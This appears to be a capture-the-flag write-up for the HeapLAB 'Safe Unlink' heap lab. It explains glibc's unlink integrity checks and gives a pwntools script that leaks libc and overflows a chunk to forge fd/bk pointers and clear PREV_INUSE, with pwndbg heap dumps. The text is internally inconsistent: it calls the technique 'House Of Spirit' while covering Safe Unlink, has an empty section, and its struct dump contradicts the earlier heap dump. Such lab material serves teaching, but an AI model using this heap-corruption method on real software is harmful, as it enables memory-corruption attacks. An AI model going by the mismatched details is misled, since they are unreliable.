

## **Introduction**

Welcome to the fifth heap exploitation technique we’re going to cover: the **House Of Spirit**. Safe Unlink refers to exploitation techniques that bypass the security checks introduced in glibc to prevent the classic unsafe unlink vulnerability. Modern glibc versions include rigorous validation of chunk metadata during unlink operations, and Safe Unlink methods find creative ways to satisfy these checks while still achieving memory corruption.

### What is Safe Unlink?

**Unlink** removes a free chunk `P` from a bin’s doubly-linked list. Historically, corrupting `P->fd` and `P->bk` let attackers write controlled pointers into memory. Safe Unlink adds consistency checks so the *list must already be self-consistent* around `P` before any pointers are updated.

### The Invariants

For a free chunk `P` in a bin:

- Next and prev links must point back:

    - `P->fd->bk == P`
    - `P->bk->fd == P`

- Adjacency and size metadata must match:

    - `!inuse(next_chunk(P))`
    - `prev_size(next_chunk(P)) == chunksize(P)`

- Basic sanity:

    - `aligned(P)`, `within_arena(P)`
    - bin-local ordering rules (e.g., largebin sort) hold

Only if all pass does unlink proceed.

### Safe Unlink (simplified):

```c
// Pseudo-code, not the exact glibc macro
FD = P->fd;
BK = P->bk;

assert(FD->bk == P);
assert(BK->fd == P);
assert(!inuse(next_chunk(P)));
assert(prev_size(next_chunk(P)) == chunksize(P));

FD->bk = BK;
BK->fd = FD;
```

### Safe Unlink Integrity Checks




For this challenge we use the provided `safe_unlink` binary. On running this binary we see the following options -

```bash
./safe_unlink 

===============
|   HeapLAB   |  Safe Unlink
===============

puts() @ 0x73c13206faf0

1) malloc 0/2
2) edit
3) free
4) target
5) quit
> 
```

Unlike the earlier Unsafe Unlink task, there is no heap address leak. We also have a `target` variable which is stored in `.data` section of the binary. From this menu, we can see that the program allows a maximum of 2 allocations. Each allocation must satisfy the size constraint **120 < bytes ≤ 1000**, which means we cannot allocate chunks that fall into the fastbins.

On requesting two `0x90` sized chunk and writing a lot of data to the first chunk reveals we are able to overwrite the size field of the next chunk like we did earlier in `unsafe unlink` challenge

Use the following script for this - 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'safe_unlink')
libc = ELF(exe.libc.path, checksec=False)


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

idx = 0

def malloc(size):
    global idx
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size: ', str(size).encode())
    idx+=1
    return idx-1

def edit(idx,data): 
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(idx).encode())
    io.sendafter(b'data: ', data)  

def free(idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index: ', str(idx).encode())

io = start()

"""
===============
|   HeapLAB   |  Safe Unlink
===============

puts() @ 0x77000306faf0

1) malloc 0/2
2) edit
3) free
4) target
5) quit
> 

"""

io.recvuntil(b'puts() @ ')
puts = int(io.recvline().strip(), 16)
log.info(f'puts: {hex(puts)}')  
libc.address = puts - libc.symbols.puts
log.info(f'libc base: {hex(libc.address)}')

chunk_A = malloc(0x88) # idx 0
chunk_B = malloc(0x88) # idx 1

payload = p64(0xdeadbeef) # fd
payload += p64(0xcafebabe) # bk
payload += b'A'*0x70
payload += p64(0x90) # prev_size
payload += p64(0x90) # size (prev_inuse = 0)

edit(chunk_A, payload)

io.interactive()

```

```bash
pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000091	................
0x603010	0x00000000deadbeef	0x00000000cafebabe	................
0x603020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603090	0x0000000000000090	0x0000000000000090	................
0x6030a0	0x0000000000000000	0x0000000000000000	................
0x6030b0	0x0000000000000000	0x0000000000000000	................
0x6030c0	0x0000000000000000	0x0000000000000000	................
0x6030d0	0x0000000000000000	0x0000000000000000	................
0x6030e0	0x0000000000000000	0x0000000000000000	................
0x6030f0	0x0000000000000000	0x0000000000000000	................
0x603100	0x0000000000000000	0x0000000000000000	................
0x603110	0x0000000000000000	0x0000000000000000	................
0x603120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk

```

The dump confirms the classic overflow: the first chunk’s user data flows into the header of the next, letting us control its recorded size.

Dumping the heap with the `heap` command in **pwndbg** shows the current layout:

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x603000
Size: 0x90 (with flag bits: 0x91)

Allocated chunk
Addr: 0x603090
Size: 0x90 (with flag bits: 0x90)

Top chunk | PREV_INUSE
Addr: 0x603120
Size: 0x20ee0 (with flag bits: 0x20ee1)
```

The output confirms two user allocations at `0x603000` and `0x603090`, followed by the top chunk at `0x603120`.

Notice that the second chunk’s size field reflects the overflow: the `PREV_INUSE` bit is clear (0x90 instead of 0x91), signaling that the allocator believes the preceding chunk is free.

When the `vis` command can’t parse a corrupted heap chunk, print it directly with GDB:


```bash
pwndbg> p *((struct malloc_chunk *)0x603000)
$1 = {
  mchunk_prev_size = 0,
  mchunk_size = 161,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

Here `0x603000` is the chunk’s starting address.
Use `ptype` to confirm the structure layout:

```bash
pwndbg> ptype struct malloc_chunk
type = struct malloc_chunk {
    size_t mchunk_prev_size;
    size_t mchunk_size;
    struct malloc_chunk *fd;
    struct malloc_chunk *bk;
    struct malloc_chunk *fd_nextsize;
    struct malloc_chunk *bk_nextsize;
}
```

Casting the address to `struct malloc_chunk *` and dereferencing it with p * prints all fields in a clean, readable format even if the metadata has been tampered with.

